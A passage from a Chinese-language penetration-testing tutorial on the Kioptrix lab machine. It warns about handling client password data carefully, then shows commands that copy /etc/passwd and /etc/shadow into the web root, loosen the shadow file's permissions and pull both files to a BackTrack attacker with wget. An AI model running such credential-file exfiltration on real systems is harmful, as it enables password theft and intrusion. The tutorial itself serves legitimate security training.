 ### 注意

使用第三方来破解客户的密码并不是一个好主意，除非你的客户完全明白你正在将密码发送到一个你无法控制的环境，并意识到这一过程中的固有风险。如果是这种情况，请确保**"书面确认"**以确保如果出了问题密码泄露到网络上，你有所覆盖……注意：一个真正的攻击者会毫不犹豫地将这些文件发送给一个未知的第三方进行破解，但是一切都有限度，失去对客户数据的控制并不是一个好主意。毕竟，与真实世界的攻击者不同，你应该关心你正在测试的环境的安全性！

### 移动文件

到目前为止屏幕上已经有了很多数据。通常情况下，你会希望将这些数据推送回一个在你控制之下的系统。无论是一个你内部设置的受损系统作为存储库，还是直接连接回攻击系统，你都需要想出一些方法将这些数据传回。

### 注意

不要使用生产级别的开放 Web 服务器来存储或传输机密文件！一个经验法则是，你应该把客户数据当作自己的数据来对待，并且将关键的密码文件放在一个开放共享或任何其他不受控制的存储中是一个**非常**糟糕的主意。在现实生活中，你会建立一个安全的传输机制，在这个机制中你对数据有完全的控制。尽可能地，它还应该进行加密，特别是在通过互联网路由时。

Kioptrix 机器安装了一个开放的 Web 服务器，所以最简单的方法之一是将文件复制到对所有人开放的`/var/www/html`目录中。在 Kioptrix shell 中输入：

```
cp /etc/passwd /var/www/html/passwd
cp /etc/shadow /var/www/html/shadow
chmod 744 /var/www/html/shadow

```

通过输入以下内容在 BackTrack 上获取文件，这将创建一个名为`kioptrixFiles`的目录，将`pwd`更改为该目录，然后从 Kioptrix Web 服务器上拉取文件：

```
# mkdir kioptrixFiles
# cd kioptrixFiles
root@bt:~/kioptrixFiles# wget http://192.168.75.14/passwd
--2012-01-08 15:36:37-- http://192.168.75.14/passwd
Connecting to 192.168.75.14:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1330 (1.3K) [text/plain]
Saving to: `passwd'
100%[======================================>] 1,330 --.-K/s in 0s
2012-01-08 15:36:37 (25.1 MB/s) - `passwd' saved [1330/1330]
root@bt:~/kioptrixFiles# wget http://192.168.75.14/shadow 
--2012-01-08 15:44:08-- http://192.168.75.14/shadow
Connecting to 192.168.75.14:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 948 [text/plain]
Saving to: `shadow'
100%[====================================>] 948 --.-K/s in 0s
2012-01-08 15:44:08 (50.9 MB/s) - `shadow' saved [948/948]

```

`shadow`和`passwd`现在都在 BackTrack 的`kioptrixFiles`目录中。在继续之前，我们应该从 Kioptrix 机器上的 Web 服务器中删除这两个文件：

```
rm /var/www/html/shadow
rm /var/www/html/passwd

```
